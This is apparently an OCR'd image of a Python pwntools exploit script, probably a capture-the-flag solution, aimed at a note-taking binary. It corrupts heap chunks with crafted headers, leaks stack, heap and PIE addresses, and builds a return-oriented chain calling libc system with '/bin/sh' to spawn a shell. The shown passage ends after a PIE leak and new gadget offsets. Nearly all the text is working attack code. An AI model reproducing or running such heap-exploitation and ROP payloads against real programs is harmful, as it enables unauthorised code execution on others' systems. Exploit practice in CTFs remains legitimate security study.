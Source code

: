 ```python

print("stack @ " + hex(stack_leak))

stack_note_main_ret = stack_leak - 0x338

victim2 = heap_base+0x48090

add_new_note(b"hacker2", b"hacker2", True, b"123", 452+16, b"A"*(248+76) + p64(0x91) + b"victim2\x00" + b"\x00"*56 + b"victim2\x00" + b"\x00"*24 + p64(0x14) + b"\x00"*8 + b"C"*8 + p64(victim2) + p64(victim2))
note_sync(0)

# clear all notes
delete_note(b"victim2", b"victim2", False, None)

add_new_note(b"lalala", b"lalala", False, None, 0x90-16, b"aaa")

pop_rdi = libc.address + 0x000000000002a3e5
ret = pop_rdi+1

sh = libc.address + 0x1d8678

new_gate = heap_base + 0x486d0
shin24 = heap_base + 0x48a60


add_new_note(b"/bin/sh", b"newgate", False, None, 1, b"aaaaa")
add_new_note(b"/bin/sh", b"newgate", True, b"123", 264+184+16, b"A"*(136+184-24-112) + p64(ret) + p64(pop_rdi) + p64(sh) + p64(libc.sym["system"]) + b"A"*(112-8) + p64(0x91) + b"/bin/sh\x00" + b"\x00"*56 + b"newgate\x00" + b"\x00"*24 + p64(0x7f) + p64(0) + p64(stack_note_main_ret) + p64(new_gate) + p64(new_gate))

edit_note(b"lalala", b"lalala", False, None, 20, b"aaaaaaa")
delete_note(b"lalala", b"lalala", False, None)

edit_note(b"/bin/sh", b"newgate", False, None, 0x90-16, b"aaaaaaa")

# cleanup old notes
add_new_note(b"hacker2", b"hacker2", True, b"123", 20, b"aaa")
delete_note(b"hacker2", b"hacker2", True, b"123")

add_new_note(b"victim2", b"victim2", True, b"123", 20, b"aaa")
delete_note(b"victim2", b"victim2", True, b"123")

note_sync(0)
# note_sync(0)

read_note(b"/bin/sh", b"newgate", False, None)

io.recvuntil(b"Content: ")
leak = unpack(io.recv(6), word_size=6*8)
pie = leak-0x3fc4

exe.address = pie
stack_note_main_ret = stack_leak - 0x338

print("PIE @ " + hex(pie))

pop_rdi = exe.address + 0x0000000000002852
pop_rsi = exe.address + 0x0000000000002a40
ret = exe.address + 0x2574


```